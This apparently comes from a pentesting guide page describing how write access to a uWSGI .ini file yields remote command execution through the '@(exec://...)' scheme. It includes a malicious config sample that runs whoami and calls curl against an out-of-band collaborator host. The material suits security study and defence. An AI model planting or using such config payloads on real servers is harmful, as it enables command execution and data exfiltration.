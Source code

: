 ![https://twitter.com/ptswarm/status/1555184661751648256/photo/1](<../../.gitbook/assets/image (1044).png>)

## **uWSGI RCE**

For a detailed exploration of this vulnerability check the original research: [uWSGI RCE Exploitation](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html).

Remote Command Execution (RCE) vulnerabilities can be exploited in uWSGI servers if one has the capability to modify the `.ini` configuration file. uWSGI configuration files leverage a specific syntax to incorporate "magic" variables, placeholders, and operators. Notably, the '@' operator, utilized as `@(filename)`, is designed to include the contents of a file. Among the various supported schemes in uWSGI, the "exec" scheme is particularly potent, allowing the reading of data from a process's standard output. This feature can be manipulated for nefarious purposes such as Remote Command Execution or Arbitrary File Write/Read when a `.ini` configuration file is processed.

Consider the following example of a harmful `uwsgi.ini` file, showcasing various schemes:

```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; curl to exfil via collaborator
extra = @(exec://curl http://collaborator-unique-host.oastify.com)
; call a function returning a char *
characters = @(call://uwsgi_func)
```
